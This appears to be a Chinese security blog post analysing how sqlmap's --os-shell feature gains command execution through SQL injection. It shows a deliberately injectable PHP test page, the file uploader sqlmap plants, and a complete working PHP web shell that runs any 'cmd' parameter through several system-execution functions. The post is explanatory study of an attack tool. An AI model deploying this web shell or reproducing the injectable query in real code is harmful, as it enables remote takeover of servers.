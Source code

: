 ```yaml
---
layout: post
title: Sqlmap--os-shell Principle analysis
date: 2018-9-26
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```


### 1.环境

**刚好学习完了二次注入,就想知道`sqlmap`的`get  shell`是怎么实现的。**

我自己写一个页面。很简单。

- config.php

```php
<?php 
 $serve = '127.0.0.1:3306';
 $user = 'root';
 $password = '';
 $db = 'test';
 $mysql = new Mysqli($serve,$user,$password,$db);
 $mysql->set_charset('utf-8');
?>
```

- sql.php

```php
<?php
 include "config.php";
 $id = @$_GET['id'];
 $sql = "select * from demo where id = '{$id}'";
 $row = $mysql->query($sql);
 if($row){
    $rows = $row->fetch_array();
    echo $rows['username']."<br />";
    echo $rows['password']."<br />";
    echo $rows['email']."<br />";
 }
?>
```

### 2.流程

**第一步**

我已经成功的利用注入点进行了`getshell`。

从图中可以看得到。

1. 我是选择是`php`.因为使用的语言就是`php`
2. 选择了一个绝对路径。
3. 发现了上传了两个文件分别是`tmpuigbp.php`和`tmpbesbw.php`

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926093832.png)

**流量分析**

我是通过`wireshark`抓取`sqlmap`的流量来观察的。

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926094504.png)

发现`sqlmap`按路径尝试去访问文件`tmpujqbu.php`，通过 POST 上传后门文件`tmpbzhga.php`

**文件内容**

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926094813.png)

可以看的到的是`tmpuigbp.php`文件内容就是一个文件上传。并且把文件给了`755`权限

```php
<?php 
if (isset($_REQUEST["upload"])) {
    $dir = $_REQUEST["uploadDir"];
    if (phpversion() < '4.1.0') {
        $file = $HTTP_POST_FILES["file"]["name"];
        @move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"], $dir . "/" . $file) or die;
    } else {
        $file = $_FILES["file"]["name"];
        @move_uploaded_file($_FILES["file"]["tmp_name"], $dir . "/" . $file) or die;
    }
    @chmod($dir . "/" . $file, 0755);
    echo "File uploaded";
} else {
    echo "<form action=" . $_SERVER["PHP_SELF"] . " method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=D:\\Software\\xampp\\htdocs\\> <input type=submit name=upload value=upload></form>";
}
?>
```

而`tmpbesbw.php`文件就是一个木马文件了。一个用于执行系统命令的后门脚本文件

```php
<?php
$c = $_REQUEST["cmd"];
@set_time_limit(0);
@ignore_user_abort(1);
@ini_set('max_execution_time', 0);
$z = @ini_get('disable_functions');
if (!empty($z)) {
    $z = preg_replace('/[, ]+/', ',', $z);
    $z = explode(',', $z);
    $z = array_map('trim', $z);
} else {
    $z = array();
}
$c = $c . " 2>&1\n";
function f($n)
{
    global $z;
    return is_callable($n) and !in_array($n, $z);
}
if (f('system')) {
    ob_start();
    system($c);
    $w = ob_get_contents();
    ob_end_clean();
} elseif (f('proc_open')) {
    $y = proc_open($c, array(array(pipe, r), array(pipe, w), array(pipe, w)), $t);
    $w = NULL;
    while (!feof($t[1])) {
        $w .= fread($t[1], 512);
    }
    @proc_close($y);
} elseif (f('shell_exec')) {
    $w = shell_exec($c);
} elseif (f('passthru')) {
    ob_start();
    passthru($c);
    $w = ob_get_contents();
    ob_end_clean();
} elseif (f('popen')) {
    $x = popen($c, r);
    $w = NULL;
    if (is_resource($x)) {
        while (!feof($x)) {
            $w .= fread($x, 512);
        }
    }
    @pclose($x);
} elseif (f('exec')) {
    $w = array();
    exec($c, $w);
    $w = join(chr(10), $w) . chr(10);
} else {
    $w = 0;
}
print "<pre>" . $w . "</pre>";
```

访问这个文件。用参数`cmd`执行命令

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926095227.png)

**原理简述**

1. 就是一个简单的上传`shell`
2. 分两个文件上传。其实可以一个文件上传
3. 使用`os-shell`的条件就是需要`FILE`权限.可写的一个环境。`PHP GPC off`
4. `os-shell`退出之后。会自动清楚这两个文件